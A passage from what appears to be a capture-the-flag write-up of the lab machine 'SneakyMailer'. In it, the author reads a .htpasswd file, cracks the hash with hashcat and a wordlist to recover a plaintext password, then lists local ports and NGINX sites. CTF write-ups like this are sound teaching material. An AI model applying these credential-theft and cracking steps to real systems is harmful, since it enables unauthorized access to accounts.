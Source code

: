 I’ll grab the authentication hash:

```

www-data@sneakymailer:~/pypi.sneakycorp.htb$ cat .htpasswd 
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/

```

I’ll toss that into `hashcat` after looking up the hash mode in the [list of example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes):

```

root@kali# hashcat -m 1600 pypi.hash /usr/share/wordlists/rockyou.txt --user --force
...[snip]...
$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/:soufianeelhaoui

```

#### NGINX

`netstat` shows that there is something listening on 127.0.0.1:5000, as identified from the `pypi-server` command line:

```

www-data@sneakymailer:/home/low$ netstat -tnlp4
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      744/nginx: worker p 
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      744/nginx: worker p 
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      -  

```

Looking in the NGINX configs shows that there are two active sites:

```

www-data@sneakymailer:/etc/nginx/sites-enabled$ ls 
pypi.sneakycorp.htb  sneakycorp.htb

```

`sneakycorp.htb` handles two virtual hosts and the redirect to `http://sneakycorp.htb` as a default server:
